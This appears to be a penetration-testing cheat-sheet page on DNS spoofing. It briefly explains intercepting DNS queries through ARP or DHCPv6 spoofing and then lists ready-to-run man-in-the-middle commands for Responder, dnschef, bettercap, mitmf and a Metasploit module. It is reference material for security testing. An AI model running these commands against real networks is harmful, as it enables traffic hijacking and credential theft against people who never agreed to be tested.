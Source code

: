 # ⭕ DNS Spoofing



DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with ARP spoofing or DHCPv6 spoofing. DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

### Responder

```
responder --interface "eth0"
responder -I "eth0"
```

### dnschef

```
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### bettercap

```
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

### mitmf (deprecated)

```
mitmf --arp --spoof --gateway 10.0.0.1 --target 10.0.0.56 -i wlan0 --dns
```

### metasploit

```
use post/linux/manage/dns_spoofing
```

